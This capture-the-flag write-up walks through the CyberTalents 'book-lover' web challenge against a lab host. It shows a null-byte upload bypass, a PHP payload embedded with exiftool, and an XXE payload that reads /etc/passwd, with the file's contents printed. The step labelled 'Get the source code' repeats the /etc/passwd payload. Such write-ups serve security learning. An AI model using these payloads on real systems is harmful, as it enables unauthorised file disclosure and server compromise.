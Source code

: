 # Solve book-lover
#### https://cybertalents.com/challenges/web/book-lover

![alt text](image-1.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mgjk31eotrvmej6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

Nothing found 

### Try file upload .gif
![alt text](image.png)

### Analyze with burp

```http
POST /index.php HTTP/1.1
Host: wcamxwl32pue3e6mgjk31eotrvmej6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------210704121221632483882569698550
Content-Length: 52973
Origin: http://wcamxwl32pue3e6mgjk31eotrvmej6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mgjk31eotrvmej6zqdkgxu639-web.cybertalentslabs.com/index.php
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _gid=GA1.2.1593788188.1718765787; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _clsk=6xoexu%7C1718765788508%7C1%7C1%7Cy.clarity.ms%2Fcollect; _fbp=fb.1.1718765789636.122478108392360263; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

-----------------------------210704121221632483882569698550
Content-Disposition: form-data; name="name"

test
-----------------------------210704121221632483882569698550
Content-Disposition: form-data; name="books"; filename="1.gif"
Content-Type: image/gif
```

### Bypass xml restriction
#### Change Content-Type
```http
Content-Type: text/xml
```

we got `Only xml Extention Are Allowed`

#### null byte bypass
```http
Content-Disposition: form-data; name="books"; filename="1.gif%00.xml"
Content-Type: text/xml
```

Bypassed!!

### Embed PHP code to the file 
`exiftool -Comment="<?php show_source(./index.php); ?>" image.jpg -o exploit.php`

Upload the file and Intercept the request and edit it to by pass the restriction

![alt text](image-2.png)

But we can't access the uploaded files to trigger the code.

### Try XXE

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```
![alt text](image-3.png)

decode base64 with `hURL -d "<string>"`

etc/passwd : 

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Get the source code 
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

![alt text](image-4.png)

*You can view the source in [index.php](index.php)*

The flag is in the source code

### Resources 
[File upload](https://book.hacktricks.xyz/pentesting-web/file-upload)

[XXE payloads](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

>Find More on ==> github.com/MedhatHassan 
